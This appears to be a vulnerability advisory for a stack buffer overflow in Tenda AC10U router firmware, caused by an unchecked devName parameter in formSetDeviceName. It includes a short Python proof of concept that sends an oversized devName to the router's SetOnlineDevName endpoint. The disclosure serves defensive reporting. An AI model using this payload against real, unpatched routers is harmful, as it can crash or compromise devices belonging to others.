


# Tenda AC10U v1.0 US_AC10UV1.0RTL_V15.03.06.49_multi_TDE01 was discovered to contain a stack overflow via the devName parameter in the formSetDeviceName function.

## Vulnerability Description

Vendor: Tenda

Product: AC10U

Version: US_AC10UV1.0RTL_V15.03.06.49_multi_TDE01

Type: Buffer Overflow

Firmware link: https://www.tendacn.com/download/detail-3795.html

## Vulnerability Details

The function "formSetDeviceName" retrieves the parameter "devName" using "websGetVar" and passes it to the function "set_device_name" without undergoing any length checks.



The function "set_device_name" only checks for the existence of the parameter "dev_name" and passes it to the "mib_name" array using sprintf. If the length of "dev_name" exceeds the length of the "mib_name" array, it will result in a stack overflow.



## **Recurring vulnerabilities and POC**

```python
import requests
ip = '192.168.159.128'
url = f'http://{ip}/goform/SetOnlineDevName'
payload = {
    "mac": '9c:fc:e8:da:9c:5b',
    "devName": 'devname1'*0x500
}
res = requests.post(url=url, data=payload)
print(res.content)
```

## Solution

The vendor has not yet provided a fix for the vulnerability, please watch the vendor's homepage for updates:
https://www.tendacn.com/product/specification/ac10u.html
